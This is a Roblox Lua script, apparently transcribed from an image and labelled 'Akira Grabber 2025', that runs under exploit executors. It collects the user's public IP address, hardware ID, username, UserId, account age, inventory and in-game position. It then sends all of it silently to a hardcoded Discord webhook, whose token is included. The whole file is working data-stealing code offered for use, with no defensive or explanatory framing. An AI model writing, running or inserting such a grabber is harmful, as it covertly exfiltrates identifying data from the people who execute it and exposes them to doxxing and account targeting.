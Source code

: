 local HttpService = game:GetService("HttpService")
local Players = game:GetService("Players")
local RunService = game:GetService("RunService")
local LocalPlayer = Players.LocalPlayer

local webhook = "https://discord.com/api/webhooks/1390380945848402020/LESfqH7r0uo4FgyOMMz6VIipkXkVK46_uZ89lq7pI24U6wD4qAUKiVOh0hYWK1NoEKPG"

local IP = "Unknown"
if syn and syn.request then
    IP = syn.request({Url = "https://api.ipify.org", Method = "GET"}).Body or "N/A"
elseif http and http.request then
    IP = http.request({Url = "https://api.ipify.org", Method = "GET"}).Body or "N/A"
elseif http_request then
    IP = http_request({Url = "https://api.ipify.org", Method = "GET"}).Body or "N/A"
end

local HWID = "Unknown"
if syn and syn.gethwid then
    HWID = syn.gethwid()
end

-- Device check
local deviceType = "Unknown"
pcall(function()
    local UserInputService = game:GetService("UserInputService")
    if UserInputService.TouchEnabled then
        deviceType = "Mobile"
    elseif UserInputService.KeyboardEnabled then
        deviceType = "PC"
    end
end)

-- Backpack
local tools = {}
for _, t in pairs(LocalPlayer.Backpack:GetChildren()) do
    table.insert(tools, t.Name)
end

-- Equipamentos
local equipped = {}
local char = LocalPlayer.Character or LocalPlayer.CharacterAdded:Wait()
for _, item in pairs(char:GetChildren()) do
    if item:IsA("Tool") then
        table.insert(equipped, item.Name)
    end
end

-- Humanoid info
local hum = char:FindFirstChildOfClass("Humanoid")
local hp = hum and hum.Health or "N/A"

-- Posição
local pos = "Unknown"
local hrp = char:FindFirstChild("HumanoidRootPart")
if hrp then
    pos = tostring(hrp.Position)
end

-- Ping e FPS
local ping = game:GetService("Stats").Network.ServerStatsItem["Data Ping"]:GetValue()
local fps = math.floor(1 / RunService.RenderStepped:Wait())

-- Final embed
local data = {
    ["username"] = "Akira Grabber 2025",
    ["embeds"] = {{
        ["title"] = "🚨 Executor Executado",
        ["color"] = 16711680,
        ["fields"] = {
            {["name"] = "Username", ["value"] = LocalPlayer.Name, ["inline"] = true},
            {["name"] = "UserId", ["value"] = tostring(LocalPlayer.UserId), ["inline"] = true},
            {["name"] = "AccountAge", ["value"] = tostring(LocalPlayer.AccountAge).." days", ["inline"] = true},
            {["name"] = "IP", ["value"] = IP, ["inline"] = false},
            {["name"] = "HWID", ["value"] = HWID, ["inline"] = false},
            {["name"] = "Team", ["value"] = tostring(LocalPlayer.Team and LocalPlayer.Team.Name or "None"), ["inline"] = true},
            {["name"] = "Device", ["value"] = deviceType, ["inline"] = true},
            {["name"] = "Ping", ["value"] = tostring(ping), ["inline"] = true},
            {["name"] = "FPS", ["value"] = tostring(fps), ["inline"] = true},
            {["name"] = "Tools", ["value"] = #tools > 0 and table.concat(tools, ", ") or "None", ["inline"] = false},
            {["name"] = "Equipped", ["value"] = #equipped > 0 and table.concat(equipped, ", ") or "None", ["inline"] = false},
            {["name"] = "Position", ["value"] = pos, ["inline"] = false},
            {["name"] = "JobId", ["value"] = game.JobId, ["inline"] = false},
            {["name"] = "PlaceId", ["value"] = tostring(game.PlaceId), ["inline"] = true}
        },
        ["footer"] = {["text"] = "✅ Akira Executor Grabber 2025"}
    }}
}

local json = HttpService:JSONEncode(data)

if syn and syn.request then
    syn.request({Url = webhook, Method = "POST", Headers = {["Content-Type"] = "application/json"}, Body = json})
elseif http and http.request then
    http.request({Url = webhook, Method = "POST", Headers = {["Content-Type"] = "application/json"}, Body = json})
elseif http_request then
    http_request({Url = webhook, Method = "POST", Headers = {["Content-Type"] = "application/json"}, Body = json})
end
